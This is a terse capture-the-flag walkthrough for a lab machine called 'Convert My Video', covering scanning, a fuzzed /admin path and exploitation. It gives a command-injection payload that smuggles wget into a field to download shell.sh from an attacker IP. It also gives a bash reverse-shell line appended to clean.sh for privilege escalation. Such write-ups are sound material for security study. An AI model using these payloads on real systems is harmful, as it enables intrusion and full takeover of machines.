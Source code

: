 # Convert My Video

## Reconnaissance

IP addr : 10.10.77.108

## Scanning & Enumeration

### Nmap Scan

result [here](nmap/initial)

### Directory Fuzzing

-/admin

## Exploitation

### RCE

```bash
 — version;wget${IFS}http://10.8.2.244:331/shell.sh;

```

root

```shell
echo "bash -i >& /dev/tcp/10.8.2.244/3302 0>&1" >> clean.sh
```
